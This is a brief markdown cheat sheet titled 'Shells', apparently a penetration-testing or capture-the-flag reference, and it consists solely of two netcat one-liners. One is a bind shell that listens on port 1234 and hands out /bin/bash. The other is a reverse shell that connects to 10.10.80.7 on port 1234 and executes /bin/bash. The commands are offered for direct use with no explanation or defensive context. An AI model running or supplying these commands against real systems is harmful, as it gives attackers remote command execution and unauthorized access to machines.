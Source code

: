 # Shells

## Bind Shells

```bash
nc -nvlp 1234 -c /bin/bash
```

## Reverse Shells

```bash
nc -nv 10.10.80.7 1234 -e /bin/bash
```